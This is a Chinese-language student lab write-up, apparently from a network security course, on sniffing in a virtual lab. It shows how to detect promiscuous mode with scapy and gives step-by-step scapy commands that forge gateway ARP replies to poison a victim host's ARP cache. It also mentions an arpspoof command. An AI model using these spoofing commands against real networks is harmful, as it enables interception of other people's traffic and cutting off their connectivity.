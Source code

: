 # 第四章实验：网络监听

## 实验准备

网络中的节点基本信息如下：

- 攻击者主机：Kali
  - 08:00:27:0b:04:81 / eth0
  - 172.16.111.144
- 受害者主机：Kali
  - 08:00:27:52:c6:b2/ eth0
  - 172.16.111.108
- 网关：Debian
  - 08:00:27:10:ea:af/ enp0s9
  - 172.16.111.1

### 安装scapy

- 在攻击者主机上安装scapy、安装 python3
 `sudo apt update && sudo apt install python3 python3-pip`
 `pip3 install scapy[complete]`

![scapy安装成功展示](images/scapy_install_sucess.png)

##  实验一：检测局域网中的异常终端

- 在受害者主机上检查网卡的「混杂模式」是否启用 ( 这里应该没有出现 PROMISC 字符串)

  `ip link show eth0`

  ![实验前检查混杂模式状态](images/check_promisc.png)

- 在攻击者主机上开启 scapy

  `sudo scapy`


- 在 scapy 的交互式终端输入以下代码回车执行

  `pkt = promiscping("172.16.111.108")`

 

-  回到受害者主机上手动开启该网卡的「混杂模式」

   `sudo ip link set eth0 promisc on`

- 再次检查混杂模式状态，发现输出结果里多出来了 PROMISC 
  `ip link show eth0`
 ![再次检查混杂模式状态](images/recheck_promisc.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  `pkt = promiscping("172.16.111.108")`

 - 两次pkt结果对比
   ![两次pkt结果对比](images/pkt_result_compare.png)

- 在受害者主机上手动关闭该网卡的「混杂模式」

  `sudo ip link set eth0 promisc off`

##  实验二：手工单步“毒化”目标主机的 ARP 缓存
受害者主机初始ARP缓存信息
 ![受害者初始ARP](images/init_arp.png)
以下代码在攻击者主机上的 `scapy` 交互式终端完成


- 构造一个 ARP 请求

  `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

- 查看构造好的 ARP 请求报文详情
  `arpbroadcast.show()`

- 发送这个 ARP 广播请求
  `recved = srp(arpbroadcast, timeout=2)`

  ![在攻击者主机上构造ARP结果展示](images/attacker_arp.png)



- 伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.108，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  `arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108",hwdst="08:00:27:0b:04:81")`

- 发送上述伪造的 ARP 响应数据包到受害者主机
  `sendp(arpspoofed)`
![发送伪造的 ARP 响应数据包到受害者主机](images/fake_arp.png)
  

- 此时在受害者主机上查看 ARP 缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
`ip neigh`

![接受伪造ARP的受害者主机ARP缓存表](images/changed_arp.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
    `restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:10:ea:af", pdst="172.16.111.108", hwdst=" 08:00:27:52:c6:b2")`
    `sendp(restorepkt1, count=100, inter=0.2)`

![伪造网关ARP](images/fake_gateway_arp.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
  `ping 172.16.111.1`

- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  `ip neigh`
![查看恢复的受害者主机ARP缓存表](images/recover_arp.png)

## 思考与反思
- 实验相对简单，做完实验想尝试直接在攻击者主机命令行里利arpspoof -i eth0 -t 172.16.111.108 172.16.111.1实现一下ARP攻击不能上网，但在kali中一直报错：找不到arpspoof。但该虚拟机已装有arpspoof,应该猜测是更新问题，需要执行sudo apt-install update && sudo apt-install upgrade.但依旧没解决问题==
- ![arpspoof_install_wrong](images/extra_wrong.png)
## 参考
- [课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)